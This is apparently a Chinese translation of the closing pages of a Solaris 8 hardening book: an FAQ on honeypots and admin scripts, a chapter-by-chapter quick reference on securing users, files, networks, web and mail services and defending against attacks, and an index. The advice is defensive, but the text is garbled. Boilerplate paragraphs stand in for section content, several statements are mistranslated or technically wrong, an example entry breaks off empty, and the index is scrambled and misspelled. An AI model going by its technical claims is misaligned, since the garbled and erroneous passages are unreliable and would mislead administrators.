- 监控系统的一种方法是创建一个 Shell 脚本，每天通过电子邮件发送一份报告。
- 值得跟踪的一些良好信息包括 `/var/adm/messages` 文件中的最新条目、系统最后重启的时间以及当前的 CPU 负载和活跃登录用户。
- 使用 `crontab` 命令将脚本作为每日 cron 任务输入。

## 常见问题

以下常见问题由本书的作者回答，旨在衡量你对本章所提概念的理解程度，并帮助你在现实生活中实施这些概念。如果你想让作者回答关于本章的问题，请访问 www.synergy.com/solutions 并点击“Ask the Author”（询问作者）表单。

问：如果我应该给蜜罐起一个听起来重要的名字，我是否应该给我的真实系统起一个不重要的名字？

答：这取决于你的整体命名方案。不要认为把你的 DNS 服务器命名为 `keep-moving-nothing-to-see-here-1` 就能让黑客相信它不是重要系统。不要做任何会引起其注意的事情。坚持你的命名方案是一个好主意，让蜜罐听起来更重要。我通常对我的网络生产服务器和工作站使用相同的命名规范。自然，蜜罐的作用不仅仅是命名，但你会惊讶于黑客对一个名为 `jackson1ia-wks` 的系统会有多么感兴趣。

问：我不擅长 Shell 脚本编写。最好的学习方法是什么？


答：网络上有一些非常棒的资源。我个人喜欢的之一是 Heiner Steven 编写的 Shelldorado，可以在 www.shelldorado.com 找到。它拥有优秀的培训资源、示例以及有趣的技巧和窍门。它为任何经验水平的人都能提供价值。

问：我应该将脚本保存在系统的哪个位置，应该如何保护它们？

答：关于这个问题有很多观点，但我通常会创建一个虚拟用户并锁定该账户。然后将所有系统脚本放在该用户的家目录下，将该用户设为所有者，并对它们设置仅用户可执行的权限。例如，如果我的虚拟用户名为 `selmac`，命令将是 `chown selmac monitor.sh; chmod 100 monitor.sh`。

问：我应该向谁报告怀疑的黑客入侵？

答：这实际上取决于攻击的严重程度以及你公司的政策。我总是向 www.cert.org 的 CERT 报告重大攻击尝试。

## Solaris 8 的加固

- 以下常见问题由本书的作者回答，旨在衡量你对本章所提概念的理解程度，并帮助你在现实生活中实施这些概念。如果你想让作者回答关于本章的问题，请访问 www.synergy.com/solutions 并点击“Ask the Author”（询问作者）表单。

## 附录：解决方案快速通道

- 以下常见问题由本书的作者回答，旨在衡量你对本章所提概念的理解程度，并帮助你在现实生活中实施这些概念。如果你想让作者回答关于本章的问题，请访问 www.synergy.com/solutions 并点击“Ask the Author”（询问作者）表单。

# 第 2 章 续

服务器。它与 Solaris Security Toolkit 配合工作进行部署，并提供了一个通常由 Toolkit 默认禁用的必要通信组件。

# 第 3 章：使用免费安全工具加固 Solaris

## 通过端口扫描检测漏洞

- 定期扫描你的网络，并熟悉网络中的住户。
- 自动化你的扫描（包括结果交付），让你的生活更简单易行，但始终务必花时间审查结果。
- 大多数端口扫描需要 root 权限才能使用某些高级功能。确保你的 cron 任务以 root 身份运行，否则可能会得到错误结果。
- 即使是安全的软件也可能被破解。对于必须以 root 运行应用程序的任务和脚本，考虑将它们设置在根环境中。始终限制你的暴露面。
- 了解你是否绝对需要系统上某个特定的端口和服务。开放的服务是恶意黑客垂涎的目标。
- 扫描所有内容，包括你的路由器和防火墙。没有任何东西是绝对免受攻击和破坏的。从端端理解整个网络。

## 使用 IP 扫描发现未经授权的系统

- 网络扫描器的有效性取决于你所扫描网络的 IP 文档。
- 理解并使用 `arp` 工具是发现网络中不受欢迎访客的重要一步。
- 熟悉你网络中常见的硬件厂商 MAC 前缀。如有必要，保留纸质副本。


366 附录 - Solaris 8 防护加固快速通道

# 第 3 章 续

- 在随机时间进行 ping 扫描。不要落入潜在入侵者可能察觉的模式。

## 通过网络流量监控检测异常流量

- `Snoop` 是 Solaris 内置的一个实用程序，是一种用于短时间内实时监控网络活动的强大网络工具。
- 使用专用的嗅探器/IDS 系统（如 `Snort`）是获取网络流量类型和模式的当前及历史准确信息的最佳方法。
- 维护静态 arp 缓存有助于保护网络免受伪造 arp 条目的的影响，这些条目在任何其他时间可能欺骗一些最好的 IDS 系统。
- 在备份带上维护良好的 IDS 日志。当入侵未被立即发现时，这些证据可能变得非常重要。

## 使用 Sudo

- 使用 `Sudo` 无需提供你的 root 密码。
- `Sudo` 的日志功能可以帮助你跟踪并记录超级用户程序的执行情况。在发生未经授权的活动时，这些日志将帮助你追溯罪首。
- 通过在 `Sudo` 配置文件中将用户分组，你可以为一组合格的管理员提供他们所需的资源。
- 确保你的用户接受过使用 `Sudo` 的训练，并且他们理解与 `Sudo` 相关的局限性。

# 第 4 章：加固你的用户

## 创建安全的组组成

- Solaris 在安装时提供几个组。大多数保留给系统单元和守护进程使用。`sysadmin` 组允许访问 Admintool。通常，小于 100 的 GID 留给系统默认组，大于 60,000 的 GID 也是如此。请注意，Admintool 分配的默认组为 0，这是一个严重的安全风险。
- 每个用户可以成为主组的成员，且不能超过 16 个备要组。
- 基于角色的访问控制 (`RBAC`) 是 Solaris 8 的新增功能。它允许系统管理员将原本保留给 root 用户的任务委托给个人或组。`RBAC` 尝试通过定义新角色、将这些角色委托给用户或组并轻松撤销其权限，解决 UNIX 系统上常见的“全有全无”权限集问题。

## 理解 Solaris 用户身份验证

- `/etc/default` 中的 `passwd`、`sw` 和 `login` 三个文件控制用户账户和登录策略。系统管理员可以设置默认账户、路径、密码长度限制和密码过期时间。
- Solaris 使用 `/etc/nsswitch.conf` 文件确定搜索文件、NIS 或 NIS+ 的顺序。

## 使用 NIS 和 NIS+ 进行身份验证

- 分布式认证系统需要安全实践。NIS 仅在根环境中运行匿名 FTP 服务。
- 如果 `SecureRPC` 不可用或无法管理，请考虑使用 `portmapper` 替代品。`UID 0` 账户应受到严格保护。

## 使用 Kerberos 进行身份验证

- Kerberos 是一种基于相互信任一个名为密钥分发中心 (`KDC`) 的第三方的身份系统。Kerberos 的基本原则是密码不在网络上传输。
- Kerberos 票据 (`TGT`) 由用户持有。票据的有效期是可配置的。Kerberos 使得登录、`rsh` 和 `Telnet` 等常用应用程序成为可能。
- 平台缺乏 Kerberos 客户端阻碍了其部署。
- 通过允许用户使用 `Sudo` 配置文件，你可以防止他们作为超级用户运行。
- 在注销时，应使用 `/usr/krb5/kdestroy` 凭据。这可以防止攻击者使用仍然有效的票据伪装用户。

## 使用可插认证模块 (PAM) 进行身份验证

- `PAM` 提供了一种灵活、可插的身份验证机制。`PAM` 可以控制从验证到会话管理的所有方面。`PAM` 模块可以堆叠并按任何顺序执行，某些是强制的，某些只需满足即可实现不同的安全策略。
- 各种 `PAM` 配置允许根据组组成访问某些管理功能。


# 第 5 章：加固你的文件

## 建立权限和所有权

- 警惕 SUID/SGID 二进制文件。
- 在审计后对所有 SUID/SGID 使用 ACL。
- 考虑使用基于角色的访问控制来限制特权命令的访问。
- 考虑使用 FixModes 协助修正基础权限。

## 使用 NFS

- 警惕你共享的文件系统或目录。
- 尽可能以只读方式共享。
- 挂载文件系统时，使用 NOSUID 挂载以确保安全性。

## 锁定 FTP 服务

- 认真评估你运行 FTP 服务的需求。
- 应用厂商补丁并测试是否存在漏洞。
- 仅在 `chroot` 环境中运行匿名 FTP 服务；验证你无法逃出牢笼。
- 如果你只允许下载，请验证你无法作为 FTP 用户在服务器上创建文件。

## 使用 Samba

- 永远不要使用 hosts 或 rost 认证！
- 始终显式定义每个用户的主目录共享，并在尽可能的地方使用访问控制。
- 警惕任何允许以 root 权限执行程序的指令。
- 像保护 `/etc/shadow` 文件一样仔细保护你的 `smbpasswd` 文件。

# 附录：Solaris 8 防攻击快速指南

# 第 5 章继续

## 监控和审计文件系统

- 注意你已安装的基准。确保在安装和配置后立即对系统进行快照。妥善保护此快照。
- 如果你选择使用 BSM 审计，请确保你使用了某种日志削减系统。审计日志填充速度很快，如果不加检查可能会导致系统拥塞。
- 同样使用 BSM 时，请记住配置被审计的事件并监控它们的适用性。此设置可能需要进行调优！

# 第 6 章：保护你的网络

## 将 Solaris 配置为 DHCP 服务器

- 在开始之前，确定你的租约池、默认网关、租约时间以及任何其他客户端数据。
- 使用命令行 `dhcpconfig` 设置工具创建你的 DHCP 服务器配置。确保启用日志记录。
- 使用图形界面工具 `dhcpmgr` 维护你的 DHCP 配置并设置主机选项。

## 在 Solaris 上保护 DNS 服务

- 要理解攻击者可以利用 DNS 服务器作为路线图，来识别并针对感兴趣的主机进行攻击。
- 考虑将你的 DNS 分拆为单独更新的公共服务器和私有服务器。
- 配置 BIND 运行在 `chroot` 监狱中。
- 在 `named.conf` 文件中尽可能严格限制区域传输信息。

# 第 6 章继续

## 配置 Solaris 提供匿名 FTP 服务

- 将所有用户添加到 `/etc/ftpus` 文件中，并根据用户对 FTP 服务的需求逐情况移除他们。
- 理解为什么匿名 FTP 在本质上是不安全的。那么，如果仍然确定是某项需求，请使用 `in.ftpd(1)` 手帮助页中的配置脚本在 `chrooted` 的 Berkeley r-commands 环境配置匿名 FTP 服务器。

## 安全地使用 X-Server 服务

- 理解基于主机的认证和基于用户的认证之间的安全级别差异。
- 除非资源紧张或在你的 Solaris 服务器上，否则请为 OpenWindows 使用 XDM，它会负责为你生成魔法饼干（magic cookies）。
- 在可能的情况下，使用 SSH 转发 X 连接以增加安全性和身份验证。

## 使用远程命令

- 尽可能限制 Berkeley r-commands 的使用。
- 理解 `/etc/hosts.equiv` 和 `.hosts` 将允许对你的服务器进行密码登录，这通常是非常不可接受的。
- 完全禁用 Berkeley r-commands 并使用 SSH 作为无缝替代品。SSH 的学习曲线非常低，因为它在几乎所有情况下使用与 Berkeley r-commands 相同的语法。

# 第 7 章：提供安全的 Web 和邮件服务

## 配置 Apache Web 服务器的安全功能

- 编写 CGI 脚本时要将安全作为首要考虑。
- 配置 `cgi-directories` 并根据需要限制对其访问。
- 使用 `<Directory>` 指令保护 Web 树的其他部分。你可以根据主机名、IP 地址或几个其他标准进行限制。
- 使用 Apache 的 `VirtualHost` 指令隐藏你的 Web 服务器的身份。结合多个 IP 地址使用，你可以为你的系统获得某种程度的安全性。

## 监控网页使用和活动

- Perl 是编写简单 Web 监控脚本的极工具。由于它包含在 Solaris 8 中，请充分利用其优秀的字符串处理能力。
- 监控你的服务器是否存在大量的 404 结果。搜索引擎或其他页面可能包含过时的链接信息。你可能需要将这些信息更新到网站的正确部分。
- 如果你的网站有受密码保护的部分，请监控日志文件中的是否存在大量的 403 结果。几个结果可能表示忘记密码，但几十或数百个结果可能表示针对你网站的暴力破解攻击。

## 配置 Sendmail 的安全功能

- `access_db` 功能允许你在从谁接收或向谁发送邮件方面具有极大的灵活性。
- Sendmail 默认关闭中继（relay）功能。在允许有限的中继时要小心。
- 你应该理解 sendmail 的所有中继功能并监控你的邮件服务器活动。如果你发现可疑的 `sendmail.cf` 或 `sendmail.mc` 文件中的异常条目，请怀疑有 UBE 活动异常。
- 利用 sendmail 规则集（rulesets）来帮助过滤反感或不需要的电子邮件，但要谨慎地使用它们。规则集在 sendmail 中开销很高。
- 在进行任何实际更改之前，理解 sendmail 的中继配置选项。如果你的更改没有生效，请准备好回滚。


# 第 8 章：将 Solaris 配置为安全路由器和防火墙

## 将 Solaris 配置为安全路由器

- 能够关闭系统上的所有服务、对运行中的内核进行配置、在不重启系统的情况下创建多层和访问控制，这使得 Solaris 成为具有 100% 可用性要求的网络的完美选择。
- Solaris 的默认安装通过在启动时配置好与连接网络通信的接口，即可提供同一网络不同部分甚至完全不同网络之间的连接。
- 默认安装的 Solaris 如果具有两个以上接口（包括回环接口）且未配置 DHCP，它将默认路由流量。
- 没有安全路由器，你就无谈安全性。因此，实现必须在设计上就是安全的。

## 路由 IP 6

- Solaris 8 上使用 IPv6 的接口可以使用系统数据或通过 DNS 获取的数据进行手动配置。
- Solaris 8 能够充当网关。这被称为运行双栈。

## IP 6 主机

- IPv6 的功能之一是系统在引导时自动配置 IP 地址的能力。这在拥有大量主机的网络中可能是一个优势。


附录 • Solaris 8 防攻击快速指南

# 第 8 章继续

## 将 Solaris 配置为防火墙

- Solaris 既能充当网关也能充当路由器。在实现上，两者之间几乎没有区别。区别在于它们在网络中的位置以及它们与主机交互的方式。
- 防火墙在配置命令、管理界面和各种功能方面有所不同。所有防火墙的设计基本上都是一致的：过滤流量。可用的两种防火墙类型是无状态和有状态。
- SunScreen Lite 是 SunScreen Secure Net 防火墙包的免费版本。SunScreen Lite 设计用于路由模式。SunScreen 可用于 VPN，并支持互联网协议的简单密钥管理（SKKM）。
- IP Filter 软件包是互联网上最早的防火墙实现之一，最初发布于 1993 年。它可以实现为网络防火墙也可以作为基于主机的防火墙。它同时支持 IPv4 和 IPv6 网络。

# 第 9 章续

- SNMP 和 `cachemrg.cgi` CGI 程序允许对缓存进行高级监控和控制，但它们要求对安全进行仔细关注。

## 配置 Squid 服务访问

- Squid 可以要求用户在访问代理服务器之前进行身份验证。默认情况下，Squid 能够通过外部程序处理 HTTP 基础认证（basic auth）。
- Squid 身份验证与客户端 IP 地址绑定，有效期为一小时。根据客户端需求可以通过 `authenticate_ttl` 标签配置此值以获得更长或更短的时间。
- HTTP 基础认证是明文传输的，因此 Squid 的密码应与访问 shell 账户或电子邮箱的密码不同。考虑使用许多 CGI 修改密码表单之一来为用户简化账户维护。
- 三种最常用的 Web 浏览器都可以通过代理服务器访问互联网。通常情况下，只需要一个缓存主机名和一个端口号。使用 Netscape 或 Internet Explorer 支持的自动代理配置 URL 可以简化客户端配置，并允许对客户端访问代理的方式进行更大的控制。

## 排除对受限网站的访问

- 使用 `url_regex` 或 `dctcm_regex` 匹配远程站点。


- 要规范下载内容的类型，使用 `req_mime_type` 正则表达式。

- 监管 Web 内容可能会改进或防止可疑内容的查看，但激进的过滤带有性能和浏览可能受到负面影响的风险。


# 第 10 章：剖析攻击

## 防范拒绝服务攻击

- 配置网络设备，以限制流量到允许的协议、可路由地址空间和承诺的访问速率。

- 配置邮件服务器，通过为 `/var/spool/mqueue` 提供一个大型的独立分区来缓解邮件泛滥的影响。还要考虑使用反垃圾邮件软件或编写规则集来识别并拒绝垃圾邮件。

- 调整 Solaris 的内核参数，以允许更更大的 TCP 连接队列和更短的 TCP 终止计时器。

## 防范缓冲区溢出攻击

- 在 `/etc/system` 中添加 `noexec_user_stack` 和 `noexec_user_stack_log`。虽然这不能 100% 确定地消除缓冲区溢出问题，但它无疑会让普通黑客更难利用存在缓冲区溢出的系统。

- 保持系统补丁为最新状态。

- 不要运行不必要的服务。系统中运行的服务越多，在某个服务中发现缓冲区溢出并被攻击者利用的可能性就越大。

## 防范暴力破解攻击

- 良好的密码策略是防御暴力破解攻击的关键特性。密码应在合理的时间后过期，但不要过于频繁，以免让用户觉得该策略太麻烦。

- 使用如 `inpasswd`、`passwd+` 或 `npppasswd` 等程序。这些程序设计用于用作 Solaris 中标准 `passwd` 程序的某种替代品。它们在系统文件实际更改密码之前提供密码强度检查。如果用户选择的密码被认为太弱，密码将被拒绝，并要求用户选择另一个一个。

# 第 10 章续

- 确保要求密码长度为八个字符。这可以通过更改 `/etc/default/passwd` 中 `PASSMIN` 的值从默认的六改为八来控制。

- 除非绝对必要，否则不要运行 NIS。使用 NIS+ 代替，或者考虑 Kerberos 或 LDAP 等其他身份验证方法。

- 偶尔在密码/shadow 文件上运行如 John the Ripper 等密码破解程序来发现弱密码。通知用户他们的密码已被破解并应更改。

## 防范木马程序攻击

- 保持最新的补丁级别，以限制或拒绝攻击者获取 root 权限级别并安装 rootkit 的。

- 通过 `/etc/cron.allow` 和 `/etc/cron.deny` 文件限制对 cron 的访问。

- 运行如 Tripwire、Fcheck、AIDE 等文件完整性检查程序来检测木马程序。

- 将 `/etc/default/login` 中为用户和 root 的默认路径分别设置为 `/usr/bin` 和 `/usr/bin:/usr/sbin`。

## 防范 IP 欺骗

- 使用 SSH 代替 r-services（即 rsh、rlogin、rpc 等）。

- 如果无法禁用 r-services，请在 `/etc/hosts.equiv` 或 `.hosts` 文件中指定唯一的 IP 地址，而不是子集。还要为受信任访问指定用户名。例如，如果系统 192.168.100.54 信任主机 192.168.100.54，则用户 jdoe 在 `/etc/hosts.equiv` 中的条目为：

- 使用 `arpwatch` 等工具检测可能的 MAC 欺骗尝试。

- 使用 SSH 代替 r-services（即 rsh、rlogin、rpc 等）。

# 第 11 章：检测并拒绝攻击

## 监控黑客活动

- 使用 Tripwire 监控文件变化。Tripwire 的商业版本提供了更多功能，开源版本可以监控远程文件。

## 使用脚本告警系统

- 使用脚本来监控黑客活动并发送邮件告警。

- 使用 `crontab` 设置这些脚本的运行计划。

## 发现攻击后该怎么办

- 蜜罐系统可以诱导黑客离开网络，并监控黑客的流量。

- 蜜罐系统可以模拟整个受攻击系统。

## 监控日志文件

- `/var/adm` 下的日志对于监控攻击非常有用。

- 保护 `syslog` 目录。

## 创建报告

- 编写一个脚本，每天发送系统重启时间和当前登录情况的报告。

# 索引

## A

- 访问控制列表（ACLs），50，132–134

- 访问日志，监控，16–17

- Adkins, Todd，350

- 标签，53–54

- AIDE，311

- 匿名 FTP，181–182

- Apache，200

- 缓冲区> 溢出攻击，302–305

- 配置安全，201

- DocumentRoot 指令，202

- Group 指令，202

- 囚禁互联网服务，305

- CGI 威胁，203–205

- ServerAdmin 指令，202

- ServerName 指令，202

- ServerRoot 指令，201

- ServerType 指令，201

- User 指令，202

- 虚拟主机，206

- ARP，79–81

- 欺骗，317

- 查看 ARP 缓存，79–80

## B

- Berkeley r 命令。参见 r-commands

- Berkeley 软件发行版 (BSD)，200

- BigAdmin，72

- BIND 381

## 382 索引

设置 chroot 监狱, 174–179

区域传输, 180–181

为 BIND 设置 chroot 监狱, 174–179

块起始符号 (Block Starting Symbol). 见 BSS

基于 Bourne 的 shell，环境设置，7–8

Citrix ICA, 捕获登录和密码组合, 6

分类层级，示例, 51, 52, 53

暴力破解攻击, 306–309

防御密码破解器, 308–309

明文 (cleartext)

与 SSH 等效命令的对比，190

协议的不安全性，67

最小通信，235

CMASK 变量，140

BSM. 见 SunSHIELD 基础安全模块

bmsenv 拷贝，41

BSS, 295

红代码蠕虫 (Code Red worm), 209

命令替换，防御, 313

缓冲区溢出攻击, 295–306

结构剖析, 299–301

防御, 301–302

针对 FTP 服务器的, 305–306

程序运行时内存布局, 296

简单栈结构, 297

针对 Web 服务器的, 302–305

通用网关接口 (Common Gateway Interface). 见 CGI

兼容模式, 109

content-length 头部，过滤, 283

受控访问 (橙色书籍 C2 级), 36

## C

C2 安全, 36, 38–47

cachemgr.gr 工具, 272–274

缓存, 280

CDs, 禁用自动挂载, 139–140

另见 C2 安全

CPU (中央处理器)

确定负载, 25–26

监控活动, 337–338

破解 (Crack), 307, 308

cron 任务，安全防护, 311–313

CGI

cachemgr.gr 工具, 272–274

限制威胁, 203–205

Chargen, 禁用, 10

chkey 命令, 142

chmod 命令, 3, 132

Christensen, Steven M., 72

CVS, 捕获登录和密码组合, 6

## D

DAC. 见自主性访问控制 (discretionary access control)

每日报告, 350–356

数据段, 295

白天时间 (Daytime), 禁用, 10

DDoS 攻击. 见分布式拒绝服务攻击

chroot

“监狱化互联网服务” (Jailed Internet Services), 305

默认设置，更改, 138–142

去军事化区. 见 DMZs

拒绝服务攻击, 288–295

邮件洪泛, 294–295

Naptha 漏洞, 288–289

死亡之源 (Ping of Death), 290–290

国防部 (DOD), 35

目标域名，过滤, 282

威慑手段, 39

df 命令, 24–25

DHCP

地址范围, 162, 164, 167

地址向导, 166–168

命令行工具, 170–172

将 Solaris 配置为服务器, 160–173

数据存储目录, 162

默认网关, 163, 164

dhcpconfig, 170–172

dhcpmgr, 161–169

DNS 配置, 162, 163

GUI 配置工具, 161–169

配置了的接口, 229–230

租约策略, 162, 163

租约类型, 167, 168

NIS/MIS+ 域和服务器, 164, 165

客户端数量, 166

检查配置, 165

Diffie-Hellman 密钥交换算法, 56

DH 认证, 142–143

Dik, Casper, 119, 139

Discard, 禁用, 10


自主性访问控制 (`discretionary access control`), 50

自主性控制 (橙色书籍 C 级), 36

自主性安全 (橙色书籍 C1 级), 36

磁盘使用信息, 24–25

软盘，禁用自动挂载, 139–140

分布式拒绝服务攻击, 288

另见拒绝服务攻击

DMZs, 341

DNS (域名系统)

`BIND`, 174–181

配置 IPv6, 248–249

在 Solaris 上加固服务, 173–181

文档

最低要求, 22–23

示例日志, 23

系统配置, 24–26

DoS 攻击. 见拒绝服务攻击

`dsniff`, 6–7, 20

另见 嗅探器 (`sniffers`)

双栈运行, 237

动态信息, 235

## E

`Echo`, 禁用, 10

`eeprom` 命令, 21–22

邮件洪泛, 294–295

另见 `Sendmail`

环境设置，默认值, 7–8

`Exec` (`rexec`)，用 SSH 替换, 11

执行权限, 3, 127

## F

文件系统, 141

更改参数, 141

监控与审计, 151–153

`find` 命令, 139

`Finger`, 禁用, 10

指指纹数据库, 77–79

`Finish` 脚本, 58–59

防火墙-1, 251

防火墙, 250–251

双重防火墙 DMZ, 341

高可用性, 55

网络地址转换 (`Network Address Translation`), 254–255

无状态, 252

理论, 251

另见 `Screen`

模式, 42–43, 44–45

`forte` 编译器, 59

免费软件 (`freeware`), 68–70

站点, 72–73

源, 69

FTP

匿名 FTP, 181–182

针对 FTP 的缓冲区溢出攻击, 305–306

捕获登录和密码组合, 6

禁用访问, 4

锁定服务, 145–147

端口, 71

用 SSH 替换, 11

将 Solaris 作为 FTP 服务器, 4

## G

网关, 250

`Gauntlet`, 251

GIDs, 102

`globbing` 漏洞, 305–306

GNU 编译器, 59

`groupadd` 命令, 130

`grouped` 命令, 130

`groupmod` 命令, 130

创建组成员身份, 101–104

重要组, 130

## H

暴力破解攻击, 306–309

缓冲区溢出, 295–306

拒绝服务, 288–295

IP 欺骗 (`IP spoofing`), 314–317

社会工程学, 334

木洛马攻击, 309–313

使用 shell 脚本警告管理员, 335–339

检测到后怎么办, 340–346

另见 蜜罐机 (`honeypots`)

加固模式, 58

堆, 295

蜜罐机, 340–346

在 Sun 系统上构建, 340

商业版, 343–346

`hostname` 文件, 238–339

## I

自动配置, 247–248

主机 (`hosts`), 247–250

通过 DNS 配置, 248–249

HTTP, 捕获登录和密码组合, 6

`hostname` 文件, 238–339

`ifconfig` 命令, 244

`ifconfig` 命令, 240

ICQ, 捕获登录和密码组合, 6

`ipnodes` 程序, 241, 242–243

`ipnodes` 程序, 243, 244

`ip` 文件, 241, 248

手动配置, 248–249

`inet.conf` 文件, 39

`switch.conf` 文件, 242

路由器, 245

路由, 237–347

停止路由, 246

进程, 12

从... 运行 Telnet 进程

Telnet 支持, 5

## J

监狱 (`jail`)

`chroot`, 174–179

“监狱化互联网服务”, 305

完整性监控器, 17

互联网网络发现, 239

`John the Ripper`, 203, 307, 308

`JumpStart` 模式, 58

## K

用...认证用户, 109–115

凭据缓存, 111–112

`keytabs`, 112

`timeservers`, 110

内核级事件, 44

按键记录, 182

`klist` 命令, 113–114

`kpasswd` 命令, 115

Kim, Gene, 326

魔术 Cookie (`magic cookies`), 184, 186

## L

标签安全 (橙色书籍 B1 级), 36–37

标签安全保护配置文件, 47

标签化. 见强制性访问控制 (`mandatory access control`)

管理用标签, 53–54

`last` 命令, 16, 349

LDAP, 捕获登录和密码组合, 6

最小权限, 48

日志文件

`/etc`, 349–350

监控, 16–18, 346–350

`/var/adm` 消息, 347–349

`/var/adm/lastlog`, 349

逻辑炸弹，解除, 311–313

登录 (`Login`), 禁用, 10

登录 (`logins`)

失败的, 17

无密码, 191–192

策略变量, 105–106

远程, 182

镜像, 6

访问模式, 2–3

模式设置, 8

监控 CPU 活动, 337–338

监控系统, 346–350

文件所有权，建立, 129–142

## M

数据包过滤器, 252

PAM, 5, 100

用...认证用户, 115–121

PAM 感知服务, 116

以及 SEAM, 113

堆叠规则, 118–119

`su` 命令, 119

`passwd` 命令, 130

`passwd` 文件, 306–307

`passwd useradd` 命令, 19

`passwd usermod` 命令, 19

密码 (`passwords`)

检查程序, 308

破解程序, 20, 307–309

用 SSH 无密码登录

SSH, 191–192

指南, 对于 19

密码是如何生成的, 307

强制性访问控制, 50–53

强制保护 (橙色书籍 B 级), 36

`ManHunt`, 346

`ManTrap`, 344–346

`Meeting Maker`, 捕获登录和密码组合, 6

Microsoft SMB, 捕获登录和密码组合, 6

Microsoft SQL, 捕获登录和密码组合, 6

MIME 类型，过滤, 282

最小化 (橙色书籍 D 级), 35

最小化模式, 58

## N

MAC. 见强制性访问控制 (`mandatory access control`)

美国国家安全局 (`NSA`), 35

NAT, 254–255

网络地址转换, 见 NAT

网络文件系统. 见 NFS

网络信息服务. 见 NIS

网络进程，评估, 11–12

网络服务，评估, 9–11

`newgrp` 命令, 101–102

NIS, 100

用...认证用户, 107–108

NIS+. 见 NIS

`nisadded` 命令, 142

`nisplus` 命令, 107

`Nmap`, 9–10, 71

命令行选项, 73

扫描后的正常输出, 74

操作系统指纹数据库, 77–79

另见 端口扫描器 (`port scanners`)

NNTP, 捕获登录和密码组合, 6

单次性, 308–309

策略, 104, 308

被影子, 19, 108

用于操作未用字段的开关, 19–20

测试, 18–20

使用 sniff 捕获, 6–7

`patchadd` 命令, 14

补丁, 13–14

用于死亡之 Ping (`Ping of Death`), 290

安全, 13–14

用于 Solaris FTP 通配符漏洞, 305–306

`patchcharm` 命令, 14

PATH 替换，防御, 313

完全正向秘密 (`Perfect Forward Secrecy`), 56

性能测量器 (`Performance Meter`), 14–16

权限, 205

修改默认值, 2–3

建立, 129–142

测试, 20

物理安全, 21–22

死亡之 Ping (`Ping of Death`), 289–290

Solaris 补丁, 290

THC 的质 (`plasmid ofTHC, The Hacker’s Choice`), 310

可插认证模块。另见 PAM

POP, 捕获登录和组合, 6

`poppass`, 捕获登录和组合, 6

端口扫描器, 9

高级端口扫描, 76–77

检测漏洞, 71–77

另见 `Nmap`

PostgreSQL, 捕获登录和密码组合, 6

PPTP, 捕获登录和密码组合, 6

`praudit` 命令, 45–46, 151, 153

主管理员角色, 48

打印机服务，禁用, 10

PRNGD, 59

进程管理器 (`Process Manager`), 14–15

配置文件, 137

程序计数器 (`PC`), 295


# R

可编程只读存储器, 21

PROM, 21

`ps` 命令, 14, 335

伪随机数生成守护进程 (pseudo random number generator daemon), 59

公钥加密, 56

## R

Rauch, Jeremy, 254

RBAC, 36, 47, 48, 103–104, 135–138

- 配置文件, 136–138
- 数据库, 135
- 特性, 135
- 查看分配给用户的授权和角色, 104

r-命令, 187–189

- 端口, 71
- 读权限, 3, 129

Reed, Darren, 251

中继主机威胁 (relay-host threat), 213–215

远程命令，内置远程访问方法, 187–189

远程过程调用 (Remote Procedure Call)。另见 RPC

审查您的 X-Window 安全, 185

`rexec` 命令, 187

`.hosts` 文件, 316

# 索引 389

RIP, 捕获登录和密码组合, 6

`rpcmountd`, 142

Rlogin, 捕获登录和密码组合, 18

RSA 安全, 308

`rsh` 命令, 187

`rlogin` 命令, 187

运行进程，监控, 335–339

Roesch, 72

基于角色的访问控制 (Role-Based Access Control)。另见 RBAC

# S

root 登录，通过 Telnet 启用, 5

`S30network.sh` 脚本, 226–227

rootkit (rootkits)

`S69inet` 脚本, 227–229, 242–243

Adore, 310

`samd`, 71

- 防御, 309–311
- 以及缓冲区溢出攻击, 298

Rootkit (Rootkit), 309–310

Samba, 147–151

Solaris 集成特木马设施 (sitt), 311–310

- 危险的 `smb.conf` 配置指令, 148–149
- 选项功能, 149–150
- 配置检查列表, 229–233

SATAN, 69

路由器

- 定义, 224–237
- 将 Solaris 配置为安全路由器, 224–237

SCP。另见 secure copy

- 定义, 225

`sdtprinter`, 14–16

IPv6, 237–247

`sdtprocess`, 14–16

- 最小明文通信, 235

SEAM, 112–115

- 最小动态信息, 235

安全复制 (secure copy), 4

- 最小化安装, 233–234
- 最小化服务, 234

安全外壳 (Secure Shell)。另见 SSH

SecureID, 308

- 最小用户, 235

安全 (security)

- 管理员角色, 49
- 使用 Solaris 的原因, 225
- 默认配置, 2–8
- 路由条件, 225–229
- 记录过程和配置, 22–26
- 停止 IPv6 路由, 246–247
- 对 Solaris 8 的增强, 55–60
- 影响, 233–235
- 取消 Solaris 路由, 236–237

路由信息协议 (Routing Information Protocol), RPC

- 优化, 233

生成守护进程 (Generation Daemon), 243–244

- 补丁, 13–14
- 锁定程序, 12
- 物理访问, 21–22
- 过程, 12
- Sun 的白皮书, 138
- 基于 RPC 的端口, 71

`rpcbind`, 71

# 索引 390

安全域 (Security Domains) (Orange Book), 37

安全焦点 (Security Focus), 72–73, 254

Sendmail, 200–201, 212

- 锁定程序, 12
- 过程, 12
- 停止中继主机威胁, 213–215
- 会话劫持, 182
- 会话回放, 188

`sftp`, 181

`sgid` 命令, 139

shadow 文件, 306–307

共享密钥加密, 56

shell (rsh)，替换为 SSH, 11

shell 脚本，用于警告管理员, 335–339

`show -p` 命令, 13

简单互联网管理 (Simple Management for Internet)

简单密钥 (Simple Key), 308

简单网络管理协议 (Simple Management Protocol)。另见 SNMP

简单跳 (Simple SKIP), 55, 253

Sun Screen (Sun Screen), 56–57

VPN 功能, 56–57

SMTP, 捕获登录和组合, 6

SNMP

- 捕获登录和密码组合, 6
- 过程, 12
- 在 Squid 中, 271, 273
- 命令和选项, 82
- 使用 SYN 洪水, 292–293
- 混杂模式, 82
- 使用 sniff 观察, 172–173

Snort, 72–83, 255–258

- 命令行开关, 83–84
- 配置文件, 256–257
- 高性能模式, 85

日志分析, 257–258

社会工程, 334

SOCKS, 捕获登录和组合, 6

Solaris C2 安全 (Solaris C2 security), 38–47

- 作为防火墙, 250
- 最小明文通信, 235
- 最小动态信息, 235
- 最小化安装, 233–234
- 最小化服务, 234
- 最小用户, 235
- 使用原因, 225
- 路由条件, 225–229
- 路由版本 6, 237–247

`S30network.sh` 脚本, 226–227

`S6inet` sniff, 227–229

# 索引 391

安全 (security)

作为安全网关, 250

作为安全路由器, 224–237

取消路由, 236–237

Solaris 8

安全增强, 55–60

受信任 Solaris 8, 47–54

SSH, 11, 111

- 与明文命令对比, 190
- 启用无密码登录, 191–192

替换 Telnet 访问, 5

用于远程访问, 189–192

配合 X-Windows 使用, 186–187

